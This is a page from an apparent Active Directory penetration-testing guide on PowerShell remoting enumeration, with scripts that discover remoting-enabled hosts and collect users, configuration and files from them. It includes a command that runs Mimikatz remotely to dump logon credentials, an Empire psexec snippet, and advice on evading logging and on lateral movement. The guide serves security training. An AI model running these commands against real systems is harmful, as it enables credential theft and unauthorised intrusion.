



[🔄 Back to Master Index](./00_Enumeration_Index.md) | [🔧 Previous: Registry Enumeration](./18_Registry_Enumeration.md) | [Next: WMI Enumeration](./20_WMI_Enumeration.md)

---

## 🔗 **RELATED ACTIVE DIRECTORY COMPONENTS**

### **⚡ PowerShell Management Components**
- **[User Accounts](../02_Active_Directory_Components/17_User_Accounts.md)**: PowerShell remoting users and permissions
- **[Domain Controllers](../02_Active_Directory_Components/02_Domain_Controllers.md)**: DC PowerShell remoting configurations
- **[Schema](../02_Active_Directory_Components/11_Schema.md)**: PowerShell object attributes and properties

### **🏗️ Infrastructure Components**
- **[Domain](../02_Active_Directory_Components/03_Domain.md)**: Domain PowerShell remoting policies
- **[Sites and Subnets](../02_Active_Directory_Components/06_Sites_and_Subnets.md)**: Network topology for remoting access
- **[Replication Service](../02_Active_Directory_Components/15_Replication_Service.md)**: PowerShell configuration replication

### **🔐 Security and Policy Components**
- **[Group Policy Objects](../02_Active_Directory_Components/09_Group_Policy_Objects.md)**: PowerShell execution policies and restrictions
- **[Kerberos](../02_Active_Directory_Components/16_Kerberos.md)**: PowerShell remoting authentication
- **[FSMO Roles](../02_Active_Directory_Components/08_FSMO_Roles.md)**: Role-specific PowerShell configurations

---

## 🚀 **POWERSHELL REMOTING ENUMERATION OVERVIEW**

# PowerShell Remoting Enumeration

## Overview
**PowerShell Remoting Enumeration** leverages PowerShell's remoting capabilities to discover, analyze, and enumerate remote systems across the Active Directory environment. This technique provides direct access to remote systems for comprehensive enumeration and analysis.

## What PowerShell Remoting Enumeration Achieves
- **Remote System Discovery**: Identify systems with PowerShell remoting enabled
- **Cross-System Enumeration**: Execute commands on multiple remote systems simultaneously
- **Centralized Data Collection**: Gather information from distributed systems
- **Lateral Movement Preparation**: Establish footholds for further enumeration

## Stealth & Loading
Use [01_Tool_Setup_Loading.md](./01_Tool_Setup_Loading.md) for stealth profiles and loading. This page covers remoting discovery and safe execution patterns only.

## PowerShell Remoting Tools

### 1. Native PowerShell Remoting Tools

#### **New-PSSession** - Create Remote Sessions
```powershell
# Basic session creation
New-PSSession -ComputerName "US-DC01"

# Session with credentials
$cred = Get-Credential
New-PSSession -ComputerName "US-DC01" -Credential $cred

# Session with specific configuration
New-PSSession -ComputerName "US-DC01" -ConfigurationName "Microsoft.PowerShell"
```

**Tool Explanation:**
- **New-PSSession**: PowerShell cmdlet for creating remote sessions
- **-ComputerName**: Target system name or IP
- **-Credential**: User credentials for authentication
- **-ConfigurationName**: Specific PowerShell configuration to use
- **Advantages**: Native PowerShell, flexible configuration, credential support
- **Disadvantages**: Requires PowerShell execution, may be logged

#### **Enter-PSSession** - Interactive Remote Session
```powershell
# Enter interactive session
Enter-PSSession -ComputerName "US-DC01"

# Interactive session with credentials
$cred = Get-Credential
Enter-PSSession -ComputerName "US-DC01" -Credential $cred

# Exit session
Exit-PSSession
```

**Tool Explanation:**
- **Enter-PSSession**: Interactive remote PowerShell session
- **-ComputerName**: Target system to connect to
- **-Credential**: Authentication credentials
- **Exit-PSSession**: Return to local PowerShell
- **Advantages**: Interactive access, real-time commands, easy to use
- **Disadvantages**: Single session, limited automation, more visible

#### **Invoke-Command** - Remote Command Execution
```powershell
# Execute single command
Invoke-Command -ComputerName "US-DC01" -ScriptBlock { Get-ComputerInfo }

# Execute with credentials
$cred = Get-Credential
Invoke-Command -ComputerName "US-DC01" -Credential $cred -ScriptBlock { Get-Process }

# Execute on multiple systems
Invoke-Command -ComputerName "US-DC01", "US-WS001" -ScriptBlock { Get-Service }
```

**Tool Explanation:**
- **Invoke-Command**: Execute commands on remote systems
- **-ComputerName**: Target system(s)
- **-ScriptBlock**: Commands to execute
- **-Credential**: Authentication credentials
- **Advantages**: Batch execution, multiple targets, automation friendly
- **Disadvantages**: No interactive mode, command logging

### 2. PowerShell Remoting Management Tools

#### **Get-PSSession** - Session Management
```powershell
# List all sessions
Get-PSSession

# Get specific session
Get-PSSession -Id 1

# Get sessions by computer
Get-PSSession -ComputerName "US-DC01"
```

**Tool Explanation:**
- **Get-PSSession**: List and manage remote sessions
- **-Id**: Session identifier
- **-ComputerName**: Filter by target computer
- **Advantages**: Session monitoring, management, troubleshooting
- **Disadvantages**: Basic functionality, limited filtering

#### **Remove-PSSession** - Session Cleanup
```powershell
# Remove specific session
Remove-PSSession -Id 1

# Remove all sessions
Get-PSSession | Remove-PSSession

# Remove sessions by computer
Get-PSSession -ComputerName "US-DC01" | Remove-PSSession
```

**Tool Explanation:**
- **Remove-PSSession**: Clean up remote sessions
- **-Id**: Specific session to remove
- **-Session**: Session object to remove
- **Advantages**: Resource cleanup, security, memory management
- **Disadvantages**: Can disconnect active work

### 3. Third-Party Remoting Tools

#### **PowerSploit - Invoke-Mimikatz**
```powershell
# Import PowerSploit
Import-Module PowerSploit

# Execute Mimikatz on remote system
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"'

# Remote execution
Invoke-Command -ComputerName "US-DC01" -ScriptBlock { Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"' }
```

**Tool Explanation:**
- **Invoke-Mimikatz**: PowerSploit credential extraction module
- **-Command**: Mimikatz commands to execute
- **Remote Execution**: Run on remote systems via PowerShell remoting
- **Advantages**: Credential extraction, memory analysis, powerful features
- **Disadvantages**: Highly detectable, may trigger AV, requires PowerSploit

#### **Empire - PowerShell Remoting Module**
```powershell
# Empire PowerShell remoting module
usemodule powershell/management/psexec

# Set options
set ComputerName US-DC01
set Username administrator
set Password Password123

# Execute
execute
```

**Tool Explanation:**
- **Empire**: Post-exploitation framework with PowerShell remoting
- **psexec module**: Remote command execution
- **Advantages**: Framework integration, multiple execution methods, stealth options
- **Disadvantages**: Requires Empire setup, learning curve, detection risk

### 4. Alternative Remoting Methods

#### **WinRM (Windows Remote Management)**
```cmd
# WinRM command line
winrm enumerate winrm/config/listener

# Test WinRM connectivity
winrm id -r:US-DC01

# Execute command via WinRM
winrm invoke Create wmicimv2/Win32_Process @{CommandLine="notepad.exe"} -r:US-DC01
```

**Tool Explanation:**
- **WinRM**: Windows Remote Management service
- **winrm enumerate**: List WinRM configuration
- **winrm id**: Test connectivity
- **winrm invoke**: Execute WMI commands
- **Advantages**: Native Windows service, WMI integration, configuration options
- **Disadvantages**: Command line only, limited scripting, verbose output

#### **WMI (Windows Management Instrumentation)**
```powershell
# WMI remote execution
Get-WmiObject -Class Win32_Process -ComputerName "US-DC01"

# Remote WMI query
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "notepad.exe" -ComputerName "US-DC01"

# WMI event subscription
Register-WmiEvent -Class Win32_ProcessStartTrace -SourceIdentifier "ProcessStarted" -ComputerName "US-DC01"
```

**Tool Explanation:**
- **WMI**: Windows Management Instrumentation
- **Get-WmiObject**: Query remote system information
- **Invoke-WmiMethod**: Execute remote methods
- **Register-WmiEvent**: Monitor remote system events
- **Advantages**: Native Windows, powerful queries, event monitoring
- **Disadvantages**: Complex syntax, limited command execution, logging

### 5. Tool Selection Guide

#### **For Basic Remoting:**
- **New-PSSession**: Standard PowerShell remoting
- **Enter-PSSession**: Interactive access
- **Invoke-Command**: Batch command execution

#### **For Credential Operations:**
- **PowerSploit**: Advanced credential extraction
- **Empire**: Framework-based operations
- **WMI**: Native Windows management

#### **For Stealth Operations:**
- **Built-in PowerShell**: Less suspicious, normal admin activity
- **WMI**: Native Windows service, reduced logging
- **Custom timing**: Add delays, randomize operations

#### **For Automation:**
- **Invoke-Command**: Batch processing, multiple targets
- **WMI**: Scheduled tasks, event monitoring
- **Custom scripts**: Tailored automation, specific use cases

## PowerShell Remoting Workflow



**Workflow Explanation:**

This comprehensive workflow demonstrates the systematic approach to **PowerShell remoting enumeration** using PowerShell and PowerView functions:

1. **Stealth Setup**: Begin with Invisi-Shell to bypass logging and detection mechanisms
2. **Tool Loading**: Load PowerView and remoting-specific enumeration tools
3. **Remoting Discovery**: Identify systems with PowerShell remoting enabled
4. **Configuration Analysis**: Analyze WinRM and remoting policies
5. **Session Management**: Create and manage remote PowerShell sessions
6. **Remote Execution**: Execute commands on remote systems
7. **Cross-System Enumeration**: Extend enumeration across multiple systems
8. **Lateral Movement**: Plan and execute lateral movement strategies
9. **Advanced Techniques**: Bypass restrictions and use stealth techniques

**Note:** For basic domain information and trust relationships, see [Domain Enumeration](./04_Domain_Enumeration.md).

## PowerShell Remoting Discovery

### 1. Test PowerShell Remoting Configuration
```powershell
# Test if PowerShell remoting is enabled on local system
function Test-PSRemotingConfiguration {
    try {
        Write-Host "Testing PowerShell remoting configuration..." -ForegroundColor Yellow
        
        # Check WinRM service
        $winrmService = Get-Service -Name "WinRM" -ErrorAction SilentlyContinue
        if ($winrmService -and $winrmService.Status -eq "Running") {
            Write-Host "✓ WinRM service is running" -ForegroundColor Green
        } else {
            Write-Host "✗ WinRM service is not running" -ForegroundColor Red
        }
        
        # Check PSRemoting configuration
        try {
            $psremoting = Get-Item WSMan:\localhost\Client\TrustedHosts -ErrorAction SilentlyContinue
            if ($psremoting) {
                Write-Host "✓ PSRemoting is configured" -ForegroundColor Green
                Write-Host "  Trusted Hosts: $($psremoting.Value)" -ForegroundColor Cyan
            } else {
                Write-Host "✗ PSRemoting is not configured" -ForegroundColor Red
            }
        }
        catch {
            Write-Host "✗ PSRemoting configuration check failed" -ForegroundColor Red
        }
        
        # Test WSMan connectivity
        try {
            $wsmanTest = Test-WSMan -ComputerName $env:COMPUTERNAME -ErrorAction Stop
            if ($wsmanTest) {
                Write-Host "✓ WSMan connectivity test successful" -ForegroundColor Green
            }
        }
        catch {
            Write-Host "✗ WSMan connectivity test failed" -ForegroundColor Red
        }
        
        return @{
            WinRMService = $winrmService
            PSRemotingConfigured = $psremoting -ne $null
            WSManConnectivity = $wsmanTest -ne $null
        }
    }
    catch {
        Write-Warning "PSRemoting configuration test failed: $($_.Exception.Message)"
        return $null
    }
}

# Test local configuration
$localConfig = Test-PSRemotingConfiguration
```

### 2. Discover Remoting-Enabled Systems
```powershell
# Find systems with PowerShell remoting enabled
function Find-PSRemotingSystems {
    param(
        [string]$Domain = "cybercorp.local",
        [int]$MaxSystems = 50
    )
    
    try {
        Write-Host "Discovering systems with PowerShell remoting enabled..." -ForegroundColor Yellow
        
        # Get computers from AD using PowerView
        $computers = Get-DomainComputer -Domain $Domain -Properties Name,OperatingSystem,lastlogondate | 
                    Where-Object { $_.lastlogondate -gt (Get-Date).AddDays(-30) } |
                    Select-Object -First $MaxSystems
        
        Write-Host "Testing $($computers.Count) computers for PowerShell remoting..." -ForegroundColor Cyan
        
        $remotingSystems = @()
        $testedCount = 0
        
        foreach ($computer in $computers) {
            $testedCount++
            Write-Progress -Activity "Testing PowerShell Remoting" -Status "Testing $($computer.Name)" -PercentComplete (($testedCount / $computers.Count) * 100)
            
            try {
                # Test basic connectivity first
                if (Test-Connection -ComputerName $computer.Name -Count 1 -Quiet -TimeoutSeconds 5) {
                    # Test PowerShell remoting
                    try {
                        $session = New-PSSession -ComputerName $computer.Name -ErrorAction Stop -TimeoutSec 10
                        
                        if ($session) {
                            Write-Host "✓ $($computer.Name) - PowerShell remoting enabled" -ForegroundColor Green
                            
                            $remotingInfo = @{
                                Name = $computer.Name
                                OperatingSystem = $computer.OperatingSystem
                                LastLogon = $computer.lastlogondate
                                Session = $session
                                Domain = $Domain
                            }
                            
                            $remotingSystems += $remotingInfo
                            
                            # Close session immediately to avoid resource exhaustion
                            Remove-PSSession -Session $session
                        }
                    }
                    catch {
                        # PowerShell remoting not available
                    }
                }
            }
            catch {
                # Connection failed
            }
        }
        
        Write-Progress -Activity "Testing PowerShell Remoting" -Completed
        
        Write-Host "PowerShell remoting discovery completed!" -ForegroundColor Green
        Write-Host "Found $($remotingSystems.Count) systems with remoting enabled" -ForegroundColor Cyan
        
        return $remotingSystems
    }
    catch {
        Write-Warning "PowerShell remoting discovery failed: $($_.Exception.Message)"
        return @()
    }
}

# Discover remoting systems
$remotingSystems = Find-PSRemotingSystems -Domain "cybercorp.local" -MaxSystems 30
```

### 3. Test Remoting Connectivity
```powershell
# Test PowerShell remoting connectivity to specific systems
function Test-PSRemotingConnectivity {
    param(
        [string[]]$ComputerNames,
        [System.Management.Automation.PSCredential]$Credential = $null
    )
    
    try {
        Write-Host "Testing PowerShell remoting connectivity..." -ForegroundColor Yellow
        
        $results = @()
        
        foreach ($computer in $ComputerNames) {
            Write-Host "Testing: $computer" -ForegroundColor Cyan
            
            $result = @{
                ComputerName = $computer
                Online = $false
                RemotingEnabled = $false
                Error = $null
                Session = $null
                TestTime = Get-Date
            }
            
            # Test basic connectivity
            try {
                if (Test-Connection -ComputerName $computer -Count 1 -Quiet -TimeoutSeconds 5) {
                    $result.Online = $true
                    Write-Host "  ✓ System is online" -ForegroundColor Green
                    
                    # Test PowerShell remoting
                    try {
                        if ($Credential) {
                            $session = New-PSSession -ComputerName $computer -Credential $Credential -ErrorAction Stop -TimeoutSec 10
                        } else {
                            $session = New-PSSession -ComputerName $computer -ErrorAction Stop -TimeoutSec 10
                        }
                        
                        if ($session) {
                            $result.RemotingEnabled = $true
                            $result.Session = $session
                            Write-Host "  ✓ PowerShell remoting enabled" -ForegroundColor Green
                            
                            # Close session immediately
                            Remove-PSSession -Session $session
                            $result.Session = $null
                        }
                    }
                    catch {
                        $result.Error = $_.Exception.Message
                        Write-Host "  ✗ PowerShell remoting failed: $($_.Exception.Message)" -ForegroundColor Red
                    }
                } else {
                    Write-Host "  ✗ System is offline" -ForegroundColor Red
                }
            }
            catch {
                $result.Error = $_.Exception.Message
                Write-Host "  ✗ Connection test failed: $($_.Exception.Message)" -ForegroundColor Red
            }
            
            $results += $result
            Write-Host ""
        }
        
        return $results
    }
    catch {
        Write-Warning "Remoting connectivity test failed: $($_.Exception.Message)"
        return @()
    }
}

# Test connectivity to specific systems
$testResults = Test-PSRemotingConnectivity -ComputerNames @("US-DC01", "US-WS001", "US-SRV001")
```

## Remote Session Management

### 1. Create and Manage Sessions
```powershell
# Create and manage PowerShell remoting sessions
function Manage-PSRemotingSessions {
    param(
        [string[]]$ComputerNames,
        [System.Management.Automation.PSCredential]$Credential = $null,
        [int]$MaxConcurrentSessions = 5
    )
    
    try {
        Write-Host "Managing PowerShell remoting sessions..." -ForegroundColor Yellow
        
        $sessions = @()
        $activeSessions = @{}
        
        # Get existing sessions
        $existingSessions = Get-PSSession
        Write-Host "Existing sessions: $($existingSessions.Count)" -ForegroundColor Cyan
        
        foreach ($session in $existingSessions) {
            Write-Host "  - $($session.ComputerName) (ID: $($session.Id), State: $($session.State))" -ForegroundColor Gray
        }
        
        Write-Host ""
        
        # Create new sessions with concurrency limit
        $sessionCount = 0
        
        foreach ($computer in $ComputerNames) {
            if ($sessionCount -ge $MaxConcurrentSessions) {
                Write-Host "Maximum concurrent sessions reached. Waiting..." -ForegroundColor Yellow
                Start-Sleep -Seconds 2
                $sessionCount = 0
            }
            
            try {
                Write-Host "Creating session to: $computer" -ForegroundColor Cyan
                
                if ($Credential) {
                    $session = New-PSSession -ComputerName $computer -Credential $Credential -ErrorAction Stop -TimeoutSec 15
                } else {
                    $session = New-PSSession -ComputerName $computer -ErrorAction Stop -TimeoutSec 15
                }
                
                if ($session) {
                    Write-Host "  ✓ Session created successfully (ID: $($session.Id))" -ForegroundColor Green
                    $sessions += $session
                    $activeSessions[$computer] = $session
                    $sessionCount++
                }
            }
            catch {
                Write-Host "  ✗ Failed to create session: $($_.Exception.Message)" -ForegroundColor Red
            }
        }
        
        Write-Host ""
        Write-Host "Active sessions: $($sessions.Count)" -ForegroundColor Green
        
        return @{
            Sessions = $sessions
            ActiveSessions = $activeSessions
        }
    }
    catch {
        Write-Warning "Session management failed: $($_.Exception.Message)"
        return @{
            Sessions = @()
            ActiveSessions = @{}
        }
    }
}

# Manage sessions
$sessionManager = Manage-PSRemotingSessions -ComputerNames @("US-DC01", "US-WS001") -MaxConcurrentSessions 3
$activeSessions = $sessionManager.ActiveSessions
```

### 2. Session Operations
```powershell
# Perform operations on remote sessions
function Invoke-RemoteOperations {
    param(
        [hashtable]$Sessions,
        [scriptblock]$ScriptBlock,
        [object[]]$Arguments = @()
    )
    
    try {
        Write-Host "Performing remote operations..." -ForegroundColor Yellow
        
        $results = @{}
        
        foreach ($computer in $Sessions.Keys) {
            $session = $Sessions[$computer]
            Write-Host "Operating on: $computer" -ForegroundColor Cyan
            
            try {
                # Execute remote command
                $result = Invoke-Command -Session $session -ScriptBlock $ScriptBlock -ArgumentList $Arguments -ErrorAction Stop
                
                $results[$computer] = @{
                    Success = $true
                    Result = $result
                    Error = $null
                }
                
                Write-Host "  ✓ Operations completed successfully" -ForegroundColor Green
            }
            catch {
                $results[$computer] = @{
                    Success = $false
                    Result = $null
                    Error = $_.Exception.Message
                }
                
                Write-Host "  ✗ Operations failed: $($_.Exception.Message)" -ForegroundColor Red
            }
            
            Write-Host ""
        }
        
        return $results
    }
    catch {
        Write-Warning "Remote operations failed: $($_.Exception.Message)"
        return @{}
    }
}

# Example: Get system information from all sessions
if ($activeSessions.Count -gt 0) {
    $systemInfoScript = {
        Get-ComputerInfo | Select-Object WindowsProductName, WindowsVersion, TotalPhysicalMemory, CsManufacturer, CsModel
    }
    
    $systemInfoResults = Invoke-RemoteOperations -Sessions $activeSessions -ScriptBlock $systemInfoScript
}
```

## Remote Enumeration Techniques

### 1. Remote User Enumeration
```powershell
# Enumerate users on remote systems
function Enumerate-RemoteUsers {
    param([hashtable]$Sessions)
    
    try {
        Write-Host "Enumerating users on remote systems..." -ForegroundColor Yellow
        
        $remoteUsers = @{}
        
        foreach ($computer in $Sessions.Keys) {
            $session = $Sessions[$computer]
            Write-Host "Enumerating users on: $computer" -ForegroundColor Cyan
            
            try {
                # Get local users
                $localUsers = Invoke-Command -Session $session -ScriptBlock {
                    Get-LocalUser | Select-Object Name, Enabled, PasswordExpires, LastLogon, Description, UserMayChangePassword
                }
                
                # Get local groups
                $localGroups = Invoke-Command -Session $session -ScriptBlock {
                    Get-LocalGroup | Select-Object Name, Description
                }
                
                # Get group memberships
                $groupMembers = @{}
                foreach ($group in $localGroups) {
                    try {
                        $members = Invoke-Command -Session $session -ScriptBlock {
                            param($GroupName)
                            Get-LocalGroupMember -Group $GroupName | Select-Object Name, PrincipalSource, ObjectClass
                        } -ArgumentList $group.Name
                        
                        $groupMembers[$group.Name] = $members
                    }
                    catch {
                        $groupMembers[$group.Name] = @()
                    }
                }
                
                $remoteUsers[$computer] = @{
                    LocalUsers = $localUsers
                    LocalGroups = $localGroups
                    GroupMembers = $groupMembers
                }
                
                Write-Host "  ✓ User enumeration completed" -ForegroundColor Green
                
                # Display interesting findings
                $adminUsers = $localUsers | Where-Object { $_.Name -like "*admin*" -or $_.Name -like "*Administrator*" }
                if ($adminUsers) {
                    Write-Host "  ⚠ Admin users found:" -ForegroundColor Yellow
                    foreach ($admin in $adminUsers) {
                        Write-Host "    - $($admin.Name) (Enabled: $($admin.Enabled))" -ForegroundColor Yellow
                    }
                }
                
            }
            catch {
                Write-Host "  ✗ User enumeration failed: $($_.Exception.Message)" -ForegroundColor Red
                $remoteUsers[$computer] = @{ Error = $_.Exception.Message }
            }
            
            Write-Host ""
        }
        
        return $remoteUsers
    }
    catch {
        Write-Warning "Remote user enumeration failed: $($_.Exception.Message)"
        return @{}
    }
}

# Enumerate remote users
if ($activeSessions.Count -gt 0) {
    $remoteUserInfo = Enumerate-RemoteUsers -Sessions $activeSessions
}
```

### 2. Remote System Configuration Enumeration
```powershell
# Enumerate system configuration on remote systems
function Enumerate-RemoteSystemConfig {
    param([hashtable]$Sessions)
    
    try {
        Write-Host "Enumerating system configuration on remote systems..." -ForegroundColor Yellow
        
        $remoteConfigs = @{}
        
        foreach ($computer in $Sessions.Keys) {
            $session = $Sessions[$computer]
            Write-Host "Enumerating configuration on: $computer" -ForegroundColor Cyan
            
            try {
                # Get comprehensive system configuration
                $systemConfig = Invoke-Command -Session $session -ScriptBlock {
                    # System information
                    $computerInfo = Get-ComputerInfo
                    
                    # Registry information
                    $registryInfo = @{
                        AutoLogin = Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "AutoAdminLogon" -ErrorAction SilentlyContinue
                        UAC = Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name "EnableLUA" -ErrorAction SilentlyContinue
                        Firewall = Get-NetFirewallProfile | Select-Object Name, Enabled, LogFileName
                    }
                    
                    # Service information
                    $services = Get-Service | Where-Object { $_.Status -eq "Running" } | Select-Object Name, DisplayName, StartType, Status
                    
                    # Scheduled tasks
                    $scheduledTasks = Get-ScheduledTask | Where-Object { $_.State -eq "Ready" } | Select-Object TaskName, TaskPath, State
                    
                    # Network configuration
                    $networkConfig = @{
                        IPAddresses = Get-NetIPAddress | Where-Object { $_.AddressFamily -eq "IPv4" } | Select-Object IPAddress, InterfaceAlias
                        Routes = Get-NetRoute | Where-Object { $_.AddressFamily -eq "IPv4" } | Select-Object DestinationPrefix, NextHop, RouteMetric
                        DNS = Get-DnsClientServerAddress | Select-Object InterfaceAlias, ServerAddresses
                    }
                    
                    return @{
                        ComputerInfo = $computerInfo
                        RegistryInfo = $registryInfo
                        Services = $services
                        ScheduledTasks = $scheduledTasks
                        NetworkConfig = $networkConfig
                    }
                }
                
                $remoteConfigs[$computer] = $systemConfig
                
                Write-Host "  ✓ Configuration enumeration completed" -ForegroundColor Green
                
                # Display interesting findings
                if ($systemConfig.RegistryInfo.AutoLogin -and $systemConfig.RegistryInfo.AutoLogin.AutoAdminLogon -eq 1) {
                    Write-Host "  ⚠ Auto-login enabled!" -ForegroundColor Red
                }
                
                if ($systemConfig.RegistryInfo.UAC -and $systemConfig.RegistryInfo.UAC.EnableLUA -eq 0) {
                    Write-Host "  ⚠ UAC disabled!" -ForegroundColor Red
                }
                
                $runningServices = $systemConfig.Services.Count
                Write-Host "  Running services: $runningServices" -ForegroundColor Cyan
                
                $scheduledTasksCount = $systemConfig.ScheduledTasks.Count
                Write-Host "  Scheduled tasks: $scheduledTasksCount" -ForegroundColor Cyan
                
            }
            catch {
                Write-Host "  ✗ Configuration enumeration failed: $($_.Exception.Message)" -ForegroundColor Red
                $remoteConfigs[$computer] = @{ Error = $_.Exception.Message }
            }
            
            Write-Host ""
        }
        
        return $remoteConfigs
    }
    catch {
        Write-Warning "Remote system configuration enumeration failed: $($_.Exception.Message)"
        return @{}
    }
}

# Enumerate remote system configuration
if ($activeSessions.Count -gt 0) {
    $remoteSystemConfigs = Enumerate-RemoteSystemConfig -Sessions $activeSessions
}
```

### 3. Remote File System Enumeration
```powershell
# Enumerate file system on remote systems
function Enumerate-RemoteFileSystem {
    param([hashtable]$Sessions)
    
    try {
        Write-Host "Enumerating file system on remote systems..." -ForegroundColor Yellow
        
        $remoteFileSystems = @{}
        
        foreach ($computer in $Sessions.Keys) {
            $session = $Sessions[$computer]
            Write-Host "Enumerating file system on: $computer" -ForegroundColor Cyan
            
            try {
                # Get file system information
                $fileSystemInfo = Invoke-Command -Session $session -ScriptBlock {
                    # Drive information
                    $drives = Get-WmiObject -Class Win32_LogicalDisk | Select-Object DeviceID, Size, FreeSpace, FileSystem
                    
                    # Interesting directories
                    $interestingDirs = @{
                        "Program Files" = Get-ChildItem -Path "C:\Program Files" -Directory | Select-Object Name, CreationTime, LastWriteTime
                        "Program Files (x86)" = Get-ChildItem -Path "C:\Program Files (x86)" -Directory -ErrorAction SilentlyContinue | Select-Object Name, CreationTime, LastWriteTime
                        "Users" = Get-ChildItem -Path "C:\Users" -Directory | Select-Object Name, CreationTime, LastWriteTime
                        "Windows" = Get-ChildItem -Path "C:\Windows" -Directory | Select-Object Name, CreationTime, LastWriteTime
                    }
                    
                    # Recent files
                    $recentFiles = Get-ChildItem -Path "C:\Users" -Recurse -File -ErrorAction SilentlyContinue | Where-Object { $_.LastWriteTime -gt (Get-Date).AddDays(-7) } | Select-Object FullName, Length, LastWriteTime | Sort-Object LastWriteTime -Descending | Select-Object -First 20
                    
                    # Large files
                    $largeFiles = Get-ChildItem -Path "C:\" -Recurse -File -ErrorAction SilentlyContinue | Where-Object { $_.Length -gt 100MB } | Select-Object FullName, Length, LastWriteTime | Sort-Object Length -Descending | Select-Object -First 10
                    
                    return @{
                        Drives = $drives
                        InterestingDirectories = $interestingDirs
                        RecentFiles = $recentFiles
                        LargeFiles = $largeFiles
                    }
                }
                
                $remoteFileSystems[$computer] = $fileSystemInfo
                
                Write-Host "  ✓ File system enumeration completed" -ForegroundColor Green
                
                # Display interesting findings
                $totalSize = ($fileSystemInfo.Drives | Measure-Object -Property Size -Sum).Sum
                $totalFree = ($fileSystemInfo.Drives | Measure-Object -Property FreeSpace -Sum).Sum
                $freePercentage = [math]::Round(($totalFree / $totalSize) * 100, 2)
                
                Write-Host "  Total disk space: $([math]::Round($totalSize / 1GB, 2)) GB" -ForegroundColor Cyan
                Write-Host "  Free space: $([math]::Round($totalFree / 1GB, 2)) GB ($freePercentage%)" -ForegroundColor Cyan
                
                $recentFilesCount = $fileSystemInfo.RecentFiles.Count
                Write-Host "  Recent files: $recentFilesCount" -ForegroundColor Cyan
                
                $largeFilesCount = $fileSystemInfo.LargeFiles.Count
                Write-Host "  Large files: $largeFilesCount" -ForegroundColor Cyan
                
            }
            catch {
                Write-Host "  ✗ File system enumeration failed: $($_.Exception.Message)" -ForegroundColor Red
                $remoteFileSystems[$computer] = @{ Error = $_.Exception.Message }
            }
            
            Write-Host ""
        }
        
        return $remoteFileSystems
    }
    catch {
        Write-Warning "Remote file system enumeration failed: $($_.Exception.Message)"
        return @{}
    }
}

# Enumerate remote file system
if ($activeSessions.Count -gt 0) {
    $remoteFileSystemInfo = Enumerate-RemoteFileSystem -Sessions $activeSessions
}
```

## Advanced Remoting Techniques

### 1. Credential Management
```powershell
# Manage credentials for remote connections
function Manage-RemoteCredentials {
    try {
        Write-Host "Managing remote connection credentials..." -ForegroundColor Yellow
        
        # Get current user context
        $currentUser = [System.Security.Principal.WindowsIdentity]::GetCurrent().Name
        Write-Host "Current user: $currentUser" -ForegroundColor Cyan
        
        # Check for stored credentials
